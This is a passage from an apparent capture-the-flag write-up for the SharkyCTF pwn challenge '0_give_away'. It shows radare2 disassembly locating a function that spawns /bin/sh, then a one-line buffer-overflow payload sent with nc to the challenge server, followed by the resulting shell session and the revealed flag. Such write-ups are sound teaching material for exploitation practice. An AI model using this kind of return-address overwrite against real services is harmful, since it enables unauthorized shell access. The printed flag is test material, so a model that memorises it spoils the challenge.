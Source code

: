 Now that we can redirect the program's execution wherever we'd like to. Let's look for intersting functions.

#### Spawn a shell

This is just the first pwn challenge. Let's check if we do not have a shell wrapper function inside our binary :

```shell
[ndako] (~/SharkyCTF/PWN) >>> r2 -AA 0_give_away
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400550]> izzq~sh
0x400794 8 7 /bin/sh
0x11 10 9 .shstrtab
0x44 10 9 .gnu.hash
[0x00400550]> pd 1 @ 0x400794
            ;-- "/bin/sh":
            ; DATA XREF from sym.win_func @ 0x4006b5
            0x00400794     .string "/bin/sh" ; len=8
[0x00400550]> pdf @ sym.win_func
/ (fcn) sym.win_func 29
|   sym.win_func ();
|           0x004006a7      55             push rbp
|           0x004006a8      4889e5         mov rbp, rsp
|           0x004006ab      ba00000000     mov edx, 0
|           0x004006b0      be00000000     mov esi, 0
|           0x004006b5      488d3dd80000.  lea rdi, qword str.bin_sh   ; 0x400794 ; "/bin/sh"
|           0x004006bc      e86ffeffff     call sym.imp.execve
|           0x004006c1      90             nop
|           0x004006c2      5d             pop rbp
\           0x004006c3      c3             ret
[0x00400550]>
```

Indeed, there is an ```execve("/bin/sh")``` wrapper function in our binary.

### Finale Payload

The final payload to exploit this binary and the service running on the remote server :

```shell
[ndako] (~/SharkyCTF/PWN) >>> (python3 -c 'from pwn import p64; print((b"A"*40+p64(0x004006a7)).hex(), end="")' | xxd -r -p ; tee) | nc sharkyctf.xyz 20333

id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
ls -al
total 28
dr-xr-xr-x 1 pwnuser root 4096 May  8 15:32 .
drwxr-xr-x 1 root    root 4096 May  9 13:11 ..
-r-xr-xr-x 1 pwnuser root 8696 Apr 29 16:37 0_give_away
-r-xr-xr-x 1 pwnuser root   24 Apr 29 16:37 flag.txt
-r-xr-xr-x 1 pwnuser root  124 May  8 15:31 start.sh
cat flag.txt
shkCTF{#Fr33_fL4g!!_<3}
```
